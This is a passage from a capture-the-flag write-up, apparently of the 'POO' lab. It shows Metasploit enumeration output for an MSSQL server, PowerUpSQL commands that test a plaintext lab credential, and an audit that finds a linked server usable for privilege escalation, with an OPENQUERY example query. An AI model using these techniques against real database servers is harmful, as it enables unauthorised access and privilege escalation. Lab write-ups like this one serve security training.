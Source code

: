 ```
[*] 10.13.38.11:1433 - 	sp_replincrementlsn
[*] 10.13.38.11:1433 - Instances found on this server:
[*] 10.13.38.11:1433 - Default Server Instance SQL Server Service is running under the privilege of:
[*] 10.13.38.11:1433 - 	xp_regread might be disabled in this system
[*] Auxiliary module execution completed
```

## PowerUpSQL and MSSQL linked servers

For the next parts, we'll use a Windows 10 machine.

![MSSQL login](/assets/images/htb-writeup-poo/Screenshot_1.png)

Since our local attacker machine is not domain joined and we don't have access to the domain controller, we'll define the instance manually and test the credentials:

```
PS C:\Users\snowscan> $user = "external_user"
PS C:\Users\snowscan> $pass = "#p00Public3xt3rnalUs3r#"
PS C:\Users\snowscan> $i = "10.13.38.11,1433"
PS C:\Users\snowscan> get-sqlservercredential -verbose -instance $i -username $user -password $pass
VERBOSE: 10.13.38.11,1433 : Connection Success.
```

Next, we start auditing the configuration for weak permissions and such. We find that there is a linked server which we can access.

```
PS C:\Users\snowscan> Invoke-SQLAuditPrivServerLink -verbose -instance $i -username $user -password $pass
VERBOSE: 10.13.38.11,1433 : START VULNERABILITY CHECK: Excessive Privilege - Server Link
VERBOSE: 10.13.38.11,1433 : CONNECTION SUCCESS.
VERBOSE: 10.13.38.11,1433 : - The COMPATIBILITY\POO_CONFIG linked server was found configured with the internal_user login.
VERBOSE: 10.13.38.11,1433 : COMPLETED VULNERABILITY CHECK: Excessive Privilege - Server Link


ComputerName  : 10.13.38.11
Instance      : 10.13.38.11,1433
Vulnerability : Excessive Privilege - Linked Server
Description   : One or more linked servers is preconfigured with alternative credentials which could allow a least privilege login to escalate their privileges on a
                remote server.
Remediation   : Configure SQL Server links to connect to remote servers using the login's current security context.
Severity      : Medium
IsVulnerable  : Yes
IsExploitable : No
Exploited     : No
ExploitCmd    : Example query: SELECT * FROM OPENQUERY([COMPATIBILITY\POO_CONFIG],'Select ''Server: '' + @@Servername +'' '' + ''Login: '' + SYSTEM_USER')
Details       : The SQL Server link COMPATIBILITY\POO_CONFIG was found configured with the internal_user login.
Reference     : https://msdn.microsoft.com/en-us/library/ms190479.aspx
Author        : Scott Sutherland (@_nullbind), NetSPI 2016
```

